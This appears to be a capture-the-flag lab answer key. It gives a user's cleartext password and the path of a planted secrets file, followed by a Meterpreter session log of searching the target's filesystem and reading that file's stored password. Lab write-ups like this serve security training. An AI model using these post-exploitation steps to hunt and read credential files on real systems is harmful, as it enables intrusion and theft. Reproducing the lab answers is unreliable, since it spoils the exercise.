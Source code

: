 What is the cleartext password of the jchambers user?  `Trustno1`

Where is the "secrets.txt" file located? (Full path of the file)  `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt `

```
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100

meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd "Program Files (x86)"
meterpreter > pwd
C:\Program Files (x86)
meterpreter > ls
Listing: C:\Program Files (x86)
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2021-03-11 07:29:52 +0000  AWS SDK for .NET
040777/rwxrwxrwx  4096  dir   2021-03-11 07:29:53 +0000  AWS Tools
040777/rwxrwxrwx  0     dir   2018-09-15 08:28:48 +0100  Common Files
040777/rwxrwxrwx  4096  dir   2020-03-18 06:47:41 +0000  Internet Explorer
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:00 +0100  Microsoft.NET
040777/rwxrwxrwx  4096  dir   2021-01-13 21:21:12 +0000  Windows Defender
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:03 +0100  Windows Mail
040777/rwxrwxrwx  4096  dir   2021-01-13 21:21:12 +0000  Windows Media Player
040777/rwxrwxrwx  0     dir   2021-07-30 21:33:31 +0100  Windows Multimedia Platform
040777/rwxrwxrwx  4096  dir   2021-01-13 21:21:12 +0000  Windows Photo Viewer
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:03 +0100  Windows Portable Devices
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:00 +0100  Windows Sidebar
040777/rwxrwxrwx  0     dir   2018-09-15 08:19:00 +0100  WindowsPowerShell
100666/rw-rw-rw-  174   fil   2018-09-15 08:16:48 +0100  desktop.ini
040777/rwxrwxrwx  0     dir   2018-09-15 08:28:48 +0100  windows nt

meterpreter > cd "Windows Multimedia Platform"
meterpreter > pwd
C:\Program Files (x86)\Windows Multimedia Platform
meterpreter > ls
Listing: C:\Program Files (x86)\Windows Multimedia Platform
===========================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  35     fil   2021-07-30 08:44:27 +0100  secrets.txt
100666/rw-rw-rw-  40432  fil   2018-09-15 08:12:04 +0100  sqmapi.dll

meterpreter > cat secrets.txt
My Twitter password is KDSvbsw3849!
```
